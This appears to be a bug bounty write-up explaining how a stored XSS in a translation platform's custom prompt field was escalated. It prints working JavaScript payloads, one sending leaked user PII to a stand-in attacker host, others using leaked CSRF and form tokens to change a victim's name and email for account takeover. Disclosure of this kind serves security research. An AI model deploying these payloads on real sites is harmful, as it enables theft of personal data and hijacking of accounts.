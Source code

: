 # How We Turned a Medium XSS into a High Bounty by Bypassing HttpOnly Cookie

#### **﷽**

During a recent security assessment on a private bug bounty program with my friends @0d\_sami and @karemelsaqary , We discovered a Stored Cross-Site Scripting (XSS) vulnerability that was initially triaged as medium severity. However, by uncovering a way to bypass HttpOnly cookies, I was able to escalate its impact, resulting in a high-severity classification and a 3x increase in the bounty. Let’s dive into the details of this finding and how I achieved this escalation.

***

## **The Initial Discovery**

The target application was a common platform used for website translations, featuring team management, project management, and an AI-powered section. While testing for privilege escalation and injection attacks, I stumbled upon an interesting input field in the AI prompts section. Specifically, there was a "select bar" for choosing prompt types, but at the end of the list, there was an option to create a custom prompt type. This immediately caught my attention as a potential vector for XSS.

I tested the input field with standard XSS payloads and successfully triggered a stored XSS vulnerability. However, there were two significant limitations:

1. **Character Limit**: The input field was restricted to 255 characters, which made crafting a payload challenging.
2. **HttpOnly Cookies**: The session cookies were protected by the HttpOnly flag, preventing JavaScript from accessing them.

Despite these limitations, I reported the vulnerability, expecting it to be classified as medium severity due to the restricted impact. The triage team confirmed this assessment, stating that the HttpOnly flag mitigated the risk of cookie theft, leaving only the potential for script execution.

<figure><img src="../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

***

## **Escalating the Impact**

While the initial finding was valid, I wasn’t satisfied with the medium severity classification. I began exploring ways to increase the impact of the vulnerability. Here’s how I did it:

### **1. Expanding the Attack Scope**

I discovered that projects could be made public, significantly widening the attack surface. If an attacker could lure users to join their project and view the AI prompts, the XSS payload would trigger for all those users. While this increased the potential impact, it still wasn’t enough to convince the security team to classify the vulnerability as high severity.

<figure><img src="../.gitbook/assets/image (302).png" alt=""><figcaption></figcaption></figure>

### **2. Leaking Sensitive User Data**

Next, I focused on finding ways to exfiltrate sensitive data. During my testing, I identified an endpoint (`/backend/settings/change_account`) that leaked all user PII (Personally Identifiable Information) if an incorrect request was sent Like Requesting it without providing the `X-CSRF-TOKEN:` header or without the required parameters and it was very very strange behavior. The challenge was crafting a payload within the 255-character limit to exploit this.

After some experimentation and assistance from AI to optimize the payload, I came up with the following:

{% code overflow="wrap" %}
```javascript
fetch('/backend/settings/change_account').then(r => r.json()).then(d => location = 'https://attacker-server.com?data=' + encodeURIComponent(JSON.stringify(d))).catch(console.error);
```
{% endcode %}

This payload forced the victim’s browser to make a request to the vulnerable endpoint, leaking all user data and sending it to my Burp Collaborator server.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### **3. Bypassing HttpOnly for CSRF Tokens**

While the session cookies were protected by the HttpOnly flag, I noticed that the CSRF token was stored in a non-HttpOnly cookie. This token was also included in the headers of requests to sensitive endpoints, such as the one used to change user passwords. By leveraging the XSS vulnerability, I could extract the CSRF token and use it to perform actions on behalf of the victim.

Here’s the payload I used to change the victim’s profile name:

{% code overflow="wrap" %}
```javascript
<script>fetch('/backend/settings/change_account',{method:'POST',headers:{'X-Csrf-Token':'fkel9z9je2','Content-Type':'application/x-www-form-urlencoded'},body:'step=real_name&real_name=hacked+0x88'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (301).png" alt=""><figcaption></figcaption></figure>

### **4. Achieving Account Takeover**

To escalate the attack further, I aimed to change the victim’s email address, which would allow for a full account takeover. However, the request to change the email required an additional parameter (`_token`) that wasn’t stored in any cookie. After some investigation, I found that this token was leaked in the HTML content of the victim’s profile page. By making a request to the profile endpoint and exfiltrating the HTML, I was able to extract the `_token` and use it in another XSS payload to change the victim’s email:

{% code overflow="wrap" %}
```javascript
<script>fetch('/api/front/user/change-email',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'new_email=t@t.co&_token=tokeforvictim'}).then(r=>r.json()).then(console.log)</script>
```
{% endcode %}

***

## **Additional Exploitation Scenarios**

Beyond account takeover, I demonstrated other severe impacts that could result from the XSS vulnerability, including:

1. **Ad Fraud**: Injecting malicious advertisements into the page.
2. **SEO Manipulation**: Injecting backlinks to manipulate search engine rankings.
3. **Cryptojacking**: Injecting scripts to mine cryptocurrency without the user’s consent.

<figure><img src="../.gitbook/assets/image (303).png" alt=""><figcaption></figcaption></figure>

The security team ultimately agreed with my assessment, reclassifying the vulnerability as high severity and awarding a significantly higher bounty. This finding serves as a reminder that persistence and creativity can turn seemingly minor vulnerabilities into critical security issues.

<figure><img src="../.gitbook/assets/image (305).png" alt=""><figcaption></figcaption></figure>

Stay curious, and happy hunting!

<figure><img src="../.gitbook/assets/image (306).png" alt=""><figcaption></figcaption></figure>

**سُبْحَانَكَ اللَّهُمَّ وَبِحَمْدِكَ ، أَشْهَدُ أَنْ لا إِلَهَ إِلا أَنْتَ ، أَسْتَغْفِرُكَ وَأَتُوبُ إِلَيْكَ**
